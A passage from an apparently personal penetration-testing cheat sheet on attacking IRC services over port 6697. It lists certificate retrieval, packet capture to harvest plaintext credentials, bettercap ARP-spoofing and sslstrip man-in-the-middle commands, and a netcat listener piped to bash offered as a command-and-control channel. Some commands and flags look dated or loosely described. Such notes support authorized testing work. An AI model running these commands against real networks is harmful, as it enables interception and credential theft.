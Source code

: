 ### Certificate Information Gathering
- **Tool:** [[OpenSSL]]
    ```bash
    openssl s_client -connect <target_ip>:6697 -showcerts
    ```
- **Description:** Retrieves and displays the server’s certificate chain, useful for identifying the certificate authority and the strength of the encryption.

## Credential Harvesting

### Packet Capture
- **Tool:** [[Wireshark]]
    ```bash
    wireshark -i <interface> -f "tcp port 6697"
    ```
- **Description:** Capture traffic and extract plaintext credentials.

### Man-in-the-Middle (MITM) Attack
- **Tool:** [[BetterCap Cheat Sheet]]
	```bash
	bettercap -iface <interface> -T <target_ip> --proxy
	```
- **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

### SSL Strip Attack
- **Tool:** [[BetterCap Cheat Sheet]], [[SSLStrip Cheat Sheet]]
    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    
    sslstrip -l 6697
    ```
- **Description:** Stripping SSL from connections in a man-in-the-middle attack, forcing clients to connect over unencrypted channels.

## Lateral Movement, Pivoting, and Tunnelling

### Tunneling IRC Over SSH
- **Tool:** [[SSH]]
	```bash
	ssh -L 6667:<server_ip>:6667 <user>@<ssh_server>
	```
- **Description:** Secure IRC communication by tunneling it over SSH.

### Using IRC as a Command and Control (C2) Channel
- **Tool:** [[IRC]]
    ```bash
    nc -l -p 6667 | bash
    ```
- **Description:** Sets up an IRC bot or script to relay commands across the network, enabling lateral movement.
